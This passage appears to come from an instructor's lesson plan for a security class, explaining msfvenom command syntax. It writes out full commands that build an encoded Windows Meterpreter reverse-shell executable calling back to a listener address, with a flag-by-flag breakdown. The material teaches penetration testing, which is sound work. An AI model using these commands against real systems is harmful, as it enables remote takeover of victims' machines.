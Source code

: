     ![A screenshot depicts the results of the command.](Images/MSV_3.png)

    - Without `msfvenom`, we would have to re-encode a payload by piping the `msfpayload` command through the `msfencode` command. In a single command, `msfvenom` does both actions and more.


#### Msfvenom Command Structure

Now, we'll cover the basics of the `msfvenom` custom payload command options.

- Display the following command to the class:

   - `msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai -f exe -o /tmp/hack.exe LHOST=172.22.117.100 LPORT=4444`

   - Break down the syntax:
      - `msfvenom`: Launches the `msfvenom` program
      - `-p`: Indicates payload
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module
      - `-a x86`: The architecture we will use. The default is `x86`.
      - `-e x86/shikata_ga_nai`: The encoder we will use
      - `-f exe`: The file type to create (in this case, `.exe`)
      - `-o /tmp/hack.exe`: Creates an output file, specifying the file name (`hack.exe`) and location (inside the `/tmp` directory)

- Next, display the command that we used in the previous lesson, and have students break it down themselves: 

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe R > hack.exe`
      - `msfvenom`: Launches the `msfvenom` program
      - `-p`: Indicates payload
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module
      - `-f exe`: Creates a `.exe` file type


Explain that in the activity that follows, students will build a custom command in an exploitation attack.

Pause to answer any questions before proceeding.

### 03. Class Do: Msfvenom Payloads (0:20)

We will now generate a custom payload with `msfvenom` and use it to gain a Meterpreter shell. 
